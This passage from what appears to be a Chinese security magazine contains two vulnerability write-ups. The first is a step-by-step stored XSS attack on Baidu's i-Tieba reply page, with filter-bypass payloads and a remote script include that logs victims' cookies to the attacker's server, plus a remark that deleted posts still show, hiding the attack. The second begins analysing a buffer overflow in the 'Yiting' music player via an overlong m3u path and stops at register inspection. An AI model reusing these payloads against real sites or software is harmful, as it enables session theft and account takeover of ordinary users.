

图 2

可惜不知为什么不能直接执行 script 代码，但是我们或许可以使用 Cross Iframe Trick 的方法来突破 iframe 的限制（现在百度在贴吧中已经修复，不过在笔者投稿时，贴吧投票系统的 bug 依然存在）。

现在我们就来说说这次的漏洞吧，事先申明，请不要利用该漏洞做违反法律法规的事。这个漏洞只供大家技术研究，研究的时候请尽量保持低调，最好在有吧主权限的贴吧使用，这样研究后可以方便地清除痕迹。

首先我们要准备两个账号，一个为受影响的账号（1 号），一个为攻击账号（2 号）。

这里笔者推荐大家使用 Chrome 浏览器，它可以方便地调试网页代码，如图 3 所示。



图 3

先来说说原理吧，这次的 0day 漏洞一样出现在 i 贴吧上，看起来百度没有做好测试工作就迫不及待放出了 i 贴吧。

由于百度 i 贴吧的机制类似于微博，会显示关注的发言回复等数据和自己收到的回复。

问题就出现在显示自己收到的回复上，i 贴吧不像贴吧，回复帖子显示的过滤都做得很严密，它会把部分回复显示在 i 贴吧中。这时，如果是使用 HTML 代码回复，在贴吧中看不出什么，代码也不会被执行，但是在 i 贴吧中就不一样了，它对一部分文本不做任何的处理就直接 write 到网页上了，这就出现了跨站漏洞！我们接下来要做的事就是去仔细研究它。

首先，我们使用 1 号账号先发个帖，这是为了方便攻击做的准备（我们可以使用两个浏览器，这样会方便很多）。然后用 2 号账号先随便回复一点东西（这是测试，也可以不回复直接到第 2 步），1 号账号的用户名下出现了一个新回复的提示，如图 4 所示。


图 4

我相信经常使用百度贴吧的用户是不会对这个提示视而不见的。

第 2 步，我们用精心设计好的脚本代码回复 1 号账号；为了方便起见，我们就用如下代码测试：

```html
<script>alert(document.cookie);</script>
```

由于百度 i 贴吧显示的时候会在其上加上超链接，所以我们最好用 `</a>` 来关闭超链接：

```html
</a><sc0069pt>alert(document.cookie);</script><a>
```

回帖，要保证最后回复的内容是这个代码才有效，因为 i 贴吧中只显示最后回复。

这时，2 号账号的操作已经完成了，等着 1 号账号查看回复就好了！

进入 1 号账号“贴吧”的“回复我的”页面，如图 5 所示。



图 5

看，出现了对话框，注意网页正好加载到回复的引号后面，正是显示我们代码的地方。再看网页源代码，如图 6 所示。



图 6

确实我们回帖的内容被写入了网页。现在，我们就尝试加载脚本文件，相信下面的代码读者都已经很熟悉了吧。

```html
<script src="http://xxx"></script>
```

将其中的 `http://xxx` 换成我们的脚本文件地址就可以了，这里笔者测试使用的是记录 Cookies 的脚本文件。由于是回帖，我们还是加上 `</a>` 和 `<>` 吧！如图 7 所示。回帖后帖子内部虽然是被编码过的，但是不用担心，1 号账号还没有查看回复呢！


图 7

转到 1 号账号中，贴吧的“回复我的”页面，果然，回复……

那里引号中应是网页上显示的内容的部分是空的，使用 Chrome 的话直接在引号处右击，选择审查元素，就可以直接转到鼠标右击位置的源代码，如图 8 所示。



图 8

看到了吧，代码被插入了。再看看我们的服务器上的文件，如图 9 所示。



图 9

Cookie 被记录到了，说明我们的代码被正确执行了。说到这里我相信读者已经明白是怎么一回事了吧。另外，由于百度的防御体系问题，发出的带不明链接的帖子、回复可能会被删除，但是“回复我的”里还是会显示最后的回复，不管有没有被删除，这种机制反而能起到隐藏攻击的作用，这就叫聪明反被聪明误。最近百度暴露出的漏洞都是些高危漏洞，作为一个网站开发人员，特别是这种交互性很强的网站，这些问题都是值得我们借鉴的。我们要尽可能不在网站的任何一处出现高危漏洞，以防止被攻击者利用、注马，从而成为传播病毒的摇篮。

- 前置知识：无
- 关键词：m3u、文件溢出

## 一听音乐盒本地 m3u 文件溢出 0day



文/图 爱无言

“一听音乐盒”是一款可以满足用户在线听歌需要的国产播放器软件，它有一个庞大的曲库作为支持。从官方的宣传资料来看，“一听音乐盒”集搜索、在线试听、歌曲管理、歌词匹配等众多功能于一身，永久免费且无须注册。如此强大的软件势必然吸引大量网络用户。我在安装了该软件之后，出于好奇，将该软件放入了自己开发的安全测试系统中，系统给出了一些安全警告提示，其中的一个安全警告是关于 m3u 文件的。众所周知，m3u 文件是音乐播放软件最常用的一种用来存放音乐文件列表信息的文件格式。它是采用明文的形式来存放用户播放过的音乐文件信息，基本格式大致如下：

```
音乐文件路径\音乐文件属性1|音乐文件属性2|音乐文件属性3
```

这里的“音乐文件属性”一般包含音乐文件的作者、音乐文件压缩比等信息。m3u 文件最为关键的一个地方是存放音乐文件路径的地方，由于 Windows 系统下对任何文件的路径长度规定在 260 个字节以内，但是第三方软件的开发者往往不注意这个细节，而是自己来规定文件路径长度，这就导致发生一些严重的安全漏洞，最为常见的安全漏洞就是缓冲区溢出漏洞。在对“一听音乐盒”这款软件进行安全测试的时候，我们就发现了这样一个典型的溢出漏洞。

这里首先给大家介绍一下本次漏洞挖掘的测试环境，电脑系统采用的是 Windows XP SP3，被测试软件为“一听音乐盒”，版本号为 2.1.0.4。在当前系统中安装好“一听音乐盒”软件后，运行“一听音乐盒”，界面如图 1 所示。



由于我这里没有连接互联网，所以大家看到图 1 右侧的位置显示的内容为无法连接到网页。初次运行“一听音乐盒”后，我发现该软件会在自己的安装目录下产生一些文件，如图 2 所示。



大家注意看，图 2 中出现了很多 m3u 格式的文件，这些文件的作用其实就是用来记录用户当前操作“一听音乐盒”时，“一听音乐盒”操作过的音乐文件信息。

这里选择对 broadcast.m3u 文件进行一次安全测试，我在其中输入了这样的内容：

```
C:\Documents and Settings\All Users\Documents\My Music\示例音乐\Beethoven（这里是超长的 Beethoven）...wma|Symphony No. 9 (Scherzo)|Ludwig van Beethoven, composer; Seattle Symphony, Gerard Schwarz, director||750
```

我们此刻修改 broadcast.m3u 文件中的音乐路径为一个超长的文件名，目的就是想要测试一下“一听音乐盒”在处理这样畸形的 m3u 文件时会不会发生溢出漏洞。

修改并保存好 broadcast.m3u 文件后，再次运行“一听音乐盒”，发现“一听音乐盒”竟然没有任何变化，一切正常！难道说，我们的测试失败了，“一听音乐盒”对 m3u 文件的内容有着严格的安全防范吗？先不要急着下结论，此刻，我们在“一听音乐盒”中间显示音乐文件名称的地方右击鼠标，出现一个菜单，如图 3 所示。



在图 3 显示的菜单中，我们选择“浏览文件”命令，你会发现刚单击完“浏览文件”命令后，“一听音乐盒”的界面瞬间消失了。刚开始我还以为是“一听音乐盒”最小化了，结果却发现“一听音乐盒”完全崩溃了。不信的话，我们现在利用 OllyDbg 程序再次运行“一听音乐盒”，然后重复刚才的操作，你会发现 OllyDbg 程序监测到“一听音乐盒”发生了严重的运行错误，如图 4 所示。



大家注意，现在“一听音乐盒”发生错误时的指令为 “CALL DWORD PTR DS:[ECX+14]”。这个指令非常有意思，暗示着如果我们能够控制 ECX 的内容，就能够控制“一听音乐盒”执行流程，执行任意指令，这样一来一个严重的安全漏洞就被我们发现了。不要关闭 OllyDbg，我们从图 4 显示的地方向上看一看出错前的代码指令。



在 OllyDbg 程序监视到“一听音乐盒”发生运行错误时，ECX 寄存器的值其实是来自于 EAX 寄存器。上述代码中第一行指令：`MOV ECX,DWORD PTR DS:[EAX]`，意思就是从 EAX 寄存器指向的内存中取出数据并赋值给 ECX 寄存器。我们再回过头来看图 4 中右侧显示的 EAX 寄存器的数值为 `00680068`。这个数值很让人怀疑，`00680068` 刚好是两个字母 `h` 的 Unicode 表达式。这是不是意味着 EAX 寄存器的值就来源于我们前面在 `broadcast.m3u` 文件中输入的 “Beehhoven” 单词中的两个 “h”？

为了证明我们的猜想，关闭 OllyDbg，修改 `broadcast.m3u` 文件中的内容，将 “Beehhoven” 单词中的两个 “h” 替换为 “gg”，再次保存 `broadcast.m3u` 文件。运行 OllyDbg 程序，用它来打开“一听音乐盒”，重复上面的操作，此刻我们来看一看出错时的 EAX 寄存器的数值，如图 5 所示。

